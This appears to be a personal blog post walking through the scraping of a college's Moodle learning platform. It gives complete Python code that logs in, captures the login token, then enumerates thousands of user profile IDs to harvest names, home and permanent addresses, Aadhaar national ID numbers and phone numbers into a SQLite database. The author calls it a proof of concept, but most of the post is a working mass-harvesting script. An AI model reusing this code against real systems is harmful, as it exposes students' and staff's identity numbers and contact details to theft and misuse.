




# Synopsis

Been messing around with my college's Moodle instance for about 6 months. Found a few interesting data fields on people's profiles. It's been way too long since I've visited my web-scraping origins (I used to web scrape for a living at one point!) so this seems good as any opportunity.

Please note that no data will be leaked in this quest, and any and all data shown for demonstration purposes will be censored for ensuring the privacy of their respective owners. This is a **PROOF OF CONCEPT** and not intended for offensive use.

Moodle is an open-source learning platform written majorly in PHP and licensed under the GNU GPL 3.0 license.

## Moodle Tech Breakdown
- PHP (78.7%)
- JavaScript (14.0%)
- Gherkin (3.5%)
- CSS (1.7%)
- Mustache (1.6%)
- SCSS (0.4%)
- Other (0.1%)

I'm going to try and do some reconnaissance first on how the site handles authentication and how it serves the data I'm interested in—by observing the requests made and the cookies set. Then I'm going to build a scraper to extract the data that I'm interested in.

## Here's everything I'll be using in this post:
- [Firefox](https://www.mozilla.org/en-US/firefox/)
- [Cookie editor extension](https://cookie-editor.com/)
- [DB4S](https://sqlitebrowser.org/)
- [Moodle](https://moodle.org/)
- [python](https://www.python.org/)
- [requests](https://requests.readthedocs.io/en/latest/)
- [lxml](https://lxml.de/)
- [cssselect](https://pypi.org/project/cssselect/)
- [GitHub repository](http://github.com/syswraith/moodle-scraper)

Let's get started!

# Authentication

First things that I notice right off the bat are:
- The LMS is written in PHP meaning majority of the operations might be handled without having to execute any JavaScript code. That's good.
- With the Cookie-Editor extension, I can see that a cookie named `MoodleSession` is being set to a random string of 26 alphanumeric characters. That's interesting.



Secondly, authenticating myself with a username and password makes the equivalent of the following cURL request:

```bash
curl 'https://lms.example.edu.in/login/index.php' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br, zstd' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: https://lms.example.edu.in' -H 'Connection: keep-alive' -H 'Referer: https://lms.example.edu.in/' -H 'Cookie: MoodleSession=pb0nit3tf74c0b4tmkik6emac4' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' -H 'Priority: u=0, i' --data-raw 'logintoken=3TnGvxtmc1PfYcLuWzk5MUfF7E9balQs&username=username&password=password-url-encoded'
```

- This tells us that there are two `MoodleSession` cookies, one before authentication and one after authentication.
- Usernames and passwords are being URL-encoded and sent in plain-text over the HTTP POST request.
- It took me a few tries but I finally found `logintoken` sneakily nested inside the page's source code in the following way:



# Writing the script

Now that we're done with some passive reconnaissance, let's get to the script!

Create a `userpass.json` file to store credentials:

```json
{
  "username": "username here",
  "password": "password here"
}
```

```python
with open("userpass.json") as auth_data:
    auth_creds = json.loads(auth_data.read())
uname = auth_creds["username"]
upass = auth_creds["password"]
```

Start session and fetch `logintoken`:

```python
session = requests.Session()
first_response = session.get("https://lms.example.edu.in/")
first_dom_tree = html.fromstring(first_response.text)
login_token = first_dom_tree.cssselect("#pre-login-form > input:nth-child(1)")[0].get("value")
```

Post authentication data:

```python
data = {"logintoken": login_token, "username": uname, "password": upass}
second_response = session.post("https://lms.example.edu.in/login/index.php", data=data, allow_redirects=True)
```

Scrape profile fields:

```python
third_response = session.get(f"https://lms.example.edu.in/user/profile.php?id={x}")
third_dom_tree = html.fromstring(third_response.text)

try:
    name = third_dom_tree.cssselect(".fullname > span:nth-child(1)")[0].text.strip('\n')
except IndexError:
    continue
```

Scrape more fields and wrap it in a loop:

```python
for x in range(7000):
    print(x)
    third_response = session.get(f"https://lms.example.edu.in/user/profile.php?id={x}")
    third_dom_tree = html.fromstring(third_response.text)
    
    try:
        name = third_dom_tree.cssselect(".fullname > span:nth-child(1)")[0].text.strip('\n') 
    except IndexError:
        continue

    try:
        laddr = third_dom_tree.cssselect("li.contentnode:nth-child(3) > dl:nth-child(1) > dd:nth-child(2) > div:nth-child(1) > table:nth-child(2) > tbody:nth-child(2) > tr:nth-child(1) > td:nth-child(1)")[0].text.strip('\n')
    except IndexError:
        laddr = ""

    try:
        paddr = third_dom_tree.cssselect(".custom_field_CorrespondenceAddressPermanent > dl:nth-child(1) > dd:nth-child(2) > div:nth-child(1) > table:nth-child(2) > tbody:nth-child(2) > tr:nth-child(1) > td:nth-child(1)")[0].text.strip('\n')
    except IndexError:
        paddr = ""

    try:
        aadhar = third_dom_tree.cssselect(".custom_field_AaadharNo > dl:nth-child(1) > dd:nth-child(2)")[0].text.strip('\n')
    except IndexError:
        aadhar = ''

    try:
        phone = third_dom_tree.cssselect(".custom_field_ContactNumber > dl:nth-child(1) > dd:nth-child(2)")[0].text.strip('\n')
    except IndexError:
        phone = ''
```

Push to SQLite:

```python
conn = sqlite3.connect("person_data.db")
cursor = conn.cursor()
cursor.execute("""
CREATE TABLE IF NOT EXISTS persons (
    uid INTEGER PRIMARY KEY,
    name TEXT NOT NULL,
    laddr TEXT,
    paddr TEXT,
    aadhar TEXT,
    phone TEXT
)
""")
conn.commit()
```

Create a class:

```python
class Person:
    def __init__(self, name, uid, laddr, paddr, aadhar, phone):
        self.name = name
        self.uid = uid
        self.laddr = laddr
        self.paddr = paddr
        self.aadhar = aadhar
        self.phone = phone

    def __str__(self):
        return f'"uid":"{self.uid}",name":"{self.name}","laddr":"{self.laddr}","paddr":"{self.paddr}","aadhar":"{self.aadhar}","phone":"{self.phone}"'

    def save_to_db(self, connection):
        cursor = connection.cursor()
        cursor.execute("""
        INSERT OR REPLACE INTO persons (uid, name, laddr, paddr, aadhar, phone)
        VALUES (?, ?, ?, ?, ?, ?)
        """, (self.uid, self.name, self.laddr, self.paddr, self.aadhar, self.phone))
        connection.commit()
```

Final loop:

```python
for x in range(15000,26200):
    third_response = session.get(f"https://lms.example.edu.in/user/profile.php?id={x}")
    third_dom_tree = html.fromstring(third_response.text)

    try:
        name = third_dom_tree.cssselect(".fullname > span:nth-child(1)")[0].text.strip('\n') 
    except IndexError:
        continue

    try:
        laddr = third_dom_tree.cssselect("li.contentnode:nth-child(3) > dl:nth-child(1) > dd:nth-child(2) > div:nth-child(1) > table:nth-child(2) > tbody:nth-child(2) > tr:nth-child(1) > td:nth-child(1)")[0].text.strip('\n')
    except IndexError:
        laddr = ""

    try:
        paddr = third_dom_tree.cssselect(".custom_field_CorrespondenceAddressPermanent > dl:nth-child(1) > dd:nth-child(2) > div:nth-child(1) > table:nth-child(2) > tbody:nth-child(2) > tr:nth-child(1) > td:nth-child(1)")[0].text.strip('\n')
    except IndexError:
        paddr = ""

    try:
        aadhar = third_dom_tree.cssselect(".custom_field_AaadharNo > dl:nth-child(1) > dd:nth-child(2)")[0].text.strip('\n')
    except IndexError:
        aadhar = ''

    try:
        phone = third_dom_tree.cssselect(".custom_field_ContactNumber > dl:nth-child(1) > dd:nth-child(2)")[0].text.strip('\n')
    except IndexError:
        phone = ''

    person = Person(name, x, laddr, paddr, aadhar, phone)
    person.save_to_db(conn)
    print(person)

conn.close()
```

# Output

Scraped data output from the console:



Scraped data from the database:



# Parting thoughts

> "In God we trust. All others must bring data." — W. Edwards Deming

Keep yours safe :)

